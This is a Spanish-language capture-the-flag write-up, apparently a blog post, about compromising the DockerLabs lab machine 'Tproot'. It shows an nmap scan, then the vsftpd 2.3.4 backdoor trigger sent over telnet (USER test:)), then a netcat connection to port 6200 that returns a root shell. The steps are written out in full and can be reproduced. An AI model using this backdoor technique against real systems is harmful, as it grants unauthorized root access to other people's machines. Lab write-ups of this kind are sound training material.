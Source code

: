 ```yaml
---
title: Tproot - DockerLabs
categories: [ Linux ]
tags: [DockerLabs]
---
```


<img src="/assets/img/DLabs/tproot.png" alt="Captura de pantalla de la máquina TProot en DockerLabs">

Hoy explotaremos la máquina *Tproot* de [DockerLabs](https://dockerlabs.es/), de dificultad Muy Fácil. Nos aprovecharemos de una vulnerabilidad en *vsftpd* en una versión sin parche.

## Desplegamos la máquina

```bash
➤ sudo bash auto_deploy.sh tproot.tar
[sudo] contraseña para nmc:     

	                    ##        .         
	              ## ## ##       ==         
	           ## ## ## ##      ===         
	       /""""""""""""""""\___/ ===       
	  ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
	       \______ o          __/           
	         \    \        __/            
	          \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  
                                         
				     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```



## Escaneo NMAP

Antes que nada, deberemos hacer un escaneo de puertos con **nmap** para encontrar los puertos abiertos y qué servicios corren en ellos.

```bash
➤ nmap -sV -p- --min-rate=100 -T4 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-17 15:11 CST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```



Nos percatamos de que está abierto el puerto **21** con el servicio **FTP**, que utiliza la versión *vsftpd 2.3.4.* Esta versión de vsftpd tiene una vulnerabilidad tipo backdoor que se activa cuando se introducen usuarios con ":)". Al hacerlo, se abre una *shell* en el puerto **6200**, permitiendo acceso remoto al sistema.

## Conexión mediante Telnet y Netcat

Nos conectamos con Telnet al puerto 21 y aprovechamos la vulnerabilidad para ingresar sin necesidad de autenticación, usando los comandos:
<mark>USER test:)</mark>
<mark>PASS test</mark>

```bash
➤ telnet 172.17.0.2 21
Trying 172.17.0.2...
Connected to 172.17.0.2.
Escape character is '^]'.
220 (vsFTPd 2.3.4)
USER test:)
331 Please specify the password.
PASS test
```



Ponemos a escuchar netcat en el puerto 6200 e intentamos ejecutar el comando *whoami*.

```bash
➤ nc 172.17.0.2 6200
whoami
root
```



## Acceso ROOT obtenido

¡Máquina comprometida! Te deseo un feliz hackeo.
